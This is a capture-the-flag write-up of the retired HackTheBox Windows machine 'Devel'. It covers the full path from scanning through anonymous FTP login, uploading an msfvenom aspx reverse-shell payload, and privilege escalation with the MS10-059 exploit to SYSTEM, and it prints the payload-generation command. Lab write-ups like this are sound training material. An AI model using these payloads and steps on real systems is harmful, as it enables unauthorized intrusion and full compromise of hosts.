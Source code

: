 ```yaml
---
title: Devel Hackthebox Writeup
date: 2020-12-18 09:00:00 +0800
categories: [Hackthebox, Retired]
tags: [windows,systeminfo,ftp anonymous,aspx,windows exploit suggester]     # TAG names should always be lowercase
image: /assets/img/devel-hackthebox/devel-pic.png
subtitle: JHBDOcubeoveiubo
---
```



# Introduction@Devel:~$


Column | Details
------------ | -------------
Name | Devel
IP | 10.10.10.5
Points | 20
Os | Windows
Difficult | Easy
Creator | [ch4p](https://www.hackthebox.eu/home/users/profile/1)
Out on | 15th March 2017

# Summary:~$

* Discovering the new host and scanning for open ports.
* logging in as `anonymous` user in `ftp port`.
* Uploading an aspx `shell` via ftp and accessing it on `port 80` to get a reverse shell.
* Using `windows exploit suggester` for escalating privileges.
* using `MS10-059.exe` got `Root Privileges`.

# Starting:~$

## Nmap

I have used **nmapAutomator** , which keeps the scanning fast and reduces effort.*(Not recommended in real life scenarios).* 

Dowload link: [nmapAutomator](https://github.com/21y4d/nmapAutomator)

___
![](/assets/img/devel-hackthebox/nmap-scan-1.png)

Let's Check port `80`, which is a **Microsoft IIS httpd 7.5** server.

___
![](/assets/img/devel-hackthebox/port-80-2.png)

I tried `gobuster` for directory search, but it didn't worked out for me.

**Command** : *gobuster dir -u http://10.10.10.5/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100*

where   **t : threads**
        **| u : URL**
        **| w : wordlists**

___
![](/assets/img/devel-hackthebox/gobuster-3.png)

Then I tried logging in `ftp` as an `anonymous user` which worked. 

*Username*: `anonymous` | *Password*: `anonymous`

___
![](/assets/img/devel-hackthebox/ftp-anonyous-4.png)

Looking what's inside ftp 

___
![](/assets/img/devel-hackthebox/ftp-inside-5.png)

I tried accessing the `aspnet_client/` directory but it showed an *403 Forbidden Error*.

___
![](/assets/img/devel-hackthebox/aspent_client-access-denied-6.png)

I used gobuster on `aspnet_client/`, but it didn't worked out.

So I tried uploading a shell in the `ftp` using **put** command and accessing it via `port 80` to get a reverse shell.

Creating payload using `msfvenom` 

**Command**: *msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=1234 -f aspx > shell.aspx*

___
![](/assets/img/devel-hackthebox/msfvenom-payload-8.png)

Uploading it to `ftp`.

___
![](/assets/img/devel-hackthebox/uploaded-shell-ftp-9.png)

Accessing /shell.aspx on `port 80`.

We got a Shell.

___
![](/assets/img/devel-hackthebox/got-shell-10.png)

But I wasn't able to get the `User Flag` becasue we didn't had the permissions.

___
![](/assets/img/devel-hackthebox/no-access-11.png)

Let's first escalate the privileges, running `systeminfo` on the machine to get all the information.

___
![](/assets/img/devel-hackthebox/getting-systeminfo-for-privsec-13.png)

Feeding the above information to `windows exploit suggester` which I had downloaded on my machine.

Download link : [windows-exploit-suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)

___
![](/assets/img/devel-hackthebox/exploit-suggester-results-14.png)

I tried using the `MS10-59` exploit for escalating privileges.

Download Link : [MS10-59.exe]( https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS10-059)

Uploading `MS10-59.exe` via ftp, just like we uploaded the aspx shell.

___
![](/assets/img/devel-hackthebox/escalating-privs-15.png)

When I tried escalating privileges, it threw me an `error` of *This program cannot be run in DOS mode.*

___
![](/assets/img/devel-hackthebox/cannot-run-in-DOS-mode-16)

I googled about this and found [this](https://superuser.com/questions/476808/i-am-getting-this-program-cannot-be-run-in-dos-mode-in-windows-xp).

Now sending the executable again but before that switching the `ftp` mode to `binary` first.

___
![](/assets/img/devel-hackthebox/transfering-0again-in-binary-mode-17.png)

Now Running the exploit and listenig on `nc`.

___
![](/assets/img/devel-hackthebox/got-shell-10.png)

Checking `whoami`

___
![](/assets/img/devel-hackthebox/whoami-image-final.png)

Got `Root`.

